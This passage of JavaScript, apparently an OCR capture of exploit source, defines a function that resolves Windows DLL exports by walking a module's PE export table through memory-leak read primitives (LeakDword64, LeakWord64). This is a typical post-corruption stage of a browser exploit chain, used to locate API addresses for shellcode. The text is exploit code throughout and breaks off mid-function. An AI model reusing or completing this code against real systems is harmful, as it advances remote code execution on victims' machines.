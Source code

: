     ////////
    ////////
    // PE parsing/EAT and IAT resolution code
    ////////

    function ResolveExport64(ModuleBase, TargetExportNameTable) {
        var FileHdrRva = LeakDword64(MakeQword(ModuleBase.high, ModuleBase.low + 0x3c));
        var EATRva = LeakDword64(MakeQword(ModuleBase.high, ModuleBase.low + FileHdrRva + 0x88));

        if(EATRva) {
            var TotalExports = LeakDword64(MakeQword(ModuleBase.high, ModuleBase.low + EATRva + 0x14));
            var AddressRvas = LeakDword64(MakeQword(ModuleBase.high, ModuleBase.low + EATRva + 0x1C));
            var NameRvas = LeakDword64(MakeQword(ModuleBase.high, ModuleBase.low + EATRva + 0x20));
            var OrdinalRvas = LeakDword64(MakeQword(ModuleBase.high, ModuleBase.low + EATRva + 0x24));
            var MaxIndex = TotalExports;
            var MinIndex = 0;
            var CurrentIndex = Math.floor(TotalExports / 2);
            var TargetTableIndex = 0;
            var BinRes = 0;
            var TrailingNullWord = false;

            if((TargetExportNameTable[TargetExportNameTable.length - 1] & 0xFFFFFF00) == 0) {
                TrailingNullWord = true;
            }

            while(TotalExports) {
                var CurrentNameRva = LeakDword64(MakeQword(ModuleBase.high, ModuleBase.low + NameRvas + 4*CurrentIndex));

                while (TargetTableIndex < TargetExportNameTable.length) {
                    var CurrentNameWord = LeakWord64(MakeQword(ModuleBase.high, ModuleBase.low + (CurrentNameRva + (4 * TargetTableIndex))));
                    var TargetExportNameWord = (TargetExportNameTable[TargetTableIndex] & 0x0000FFFF);
                    var SanitizedCurrentNameWord = NullSanitizeWord(CurrentNameWord);
                    var FinalTableIndex = false;

                    if((TargetTableIndex + 1) >= TargetExportNameTable.length) {
                        FinalTableIndex = true;
                    }

                    BinRes = BinaryCmp(TargetExportNameWord, SanitizedCurrentNameWord);

                    if(!BinRes) {
                        TargetExportNameWord = ((TargetExportNameTable[TargetTableIndex] & 0xFFFF0000) >> 16);
                        CurrentNameWord = LeakWord64(MakeQword(ModuleBase.high, ModuleBase.low + (CurrentNameRva + (4 * TargetTableIndex)) + 2));
                        SanitizedCurrentNameWord = NullSanitizeWord(CurrentNameWord);

                        if(TrailingNullWord && FinalTableIndex) {
                            var Ordinal = LeakWord64(MakeQword(ModuleBase.high, ModuleBase.low + OrdinalRvas + 2*CurrentIndex));
                            var MainExport = MakeQword(ModuleBase.high, ModuleBase.low + LeakDword64(MakeQword(ModuleBase.high, ModuleBase.low + AddressRvas + 4*Ordinal)));
                            return MainExport;
                        }
